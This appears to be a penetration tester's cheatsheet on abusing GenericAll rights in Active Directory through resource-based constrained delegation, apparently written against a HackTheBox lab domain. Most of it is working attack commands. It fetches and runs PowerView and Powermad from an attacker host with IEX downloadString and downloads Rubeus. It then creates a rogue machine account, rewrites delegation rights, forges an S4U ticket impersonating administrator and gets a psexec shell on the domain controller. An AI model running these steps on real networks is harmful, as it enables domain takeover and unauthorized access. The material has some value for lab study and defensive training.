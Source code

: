 
Remove GenericAll from user, exchange user or security group
```powershell
Remove-ADPermission -Identity dc.support.htb -User '$userORexchangeuserORsecuritygroup' -AccessRights GenericAll
```


## GenericAll Abuse 

Create a machine account with password and the permission to be *AllowedToActOnBehalfOfOtherIdentity* , then to forge a self-signed a ticket to impersonate a user in the explained  given below by Bloodhound:

Full control of a computer object can be used to perform a resource based constrained delegation attack. Abusing this primitive is currently only possible through the Rubeus project.  First, if an attacker does not control an account with an SPN set, [Kevin Robertson's Powermad project](https://github.com/Kevin-Robertson/Powermad) can be used to add a new attacker-controlled computer account:

Download:
```powershell
PS C:\programdata> curl http://10.10.10.10/Rubeus.exe -o Rubeus.exe
C:\programdata> IEX(New-Object Net.WebClient).downloadString('http://10.10.10.10/PowerView.ps1')
PS C:\programdata> IEX(New-Object Net.WebClient).downloadString('http://10.10.10.10/Powermad.ps1')
# Check if you create machine
Get-DomainObject -Identity 'DC=DOMAIN,DC=TLD' | ms-ds-machineaccountquota
```


```powershell
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
```

[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) - [[Powerview-Cheatsheet]] - can be used to then retrieve the security identifier (SID) of the newly created computer account:

```powershell
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
```

We now need to build a generic ACE with the attacker-added computer SID as the principal, and get the binary bytes for the new DACL/ACE:

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we're taking over, again using PowerView in this case:

```powershell
Get-DomainComputer attackersystem | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

[SharpCollection: Rubeus](https://github.com/Flangvik/SharpCollection.git) or [Ghostpack/Rubeus](https://github.com/GhostPack/Rubeus)
We can then use [[Rubeus-Cheatsheet]] to hash the plaintext password into its RC4_HMAC form:

```bash
Rubeus.exe hash /password:Summer2018!
```

And finally we can use Rubeus' *s4u* module to get a service ticket for the service name (sname) we want to "pretend" to be "admin" for. This ticket is injected (thanks to /ptt), and in this case grants us access to the file system of the TARGETCOMPUTER:

```bash
Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt
```

Remove paste to vim, remove all spaces and save - [[Vim-Cheatsheet]]
```lua
:set paste
%s/ //g
:wq ticket.kirbi.b64
```

Decode Ticket, Convert the Ticket, export KRB5CCNAME variable and psexec with [[Impacket-Cheatsheet]]
```bash
base64 -d ticket.kirbi.b64 > ticket.kirbi 
impacket-ticketConverter ticket.kirbi ticket.ccache
export KRB5CCNAME=ticket.kirbi
impacket-psexec -k -no-pass support.htb/administrator@dc.support.htb
```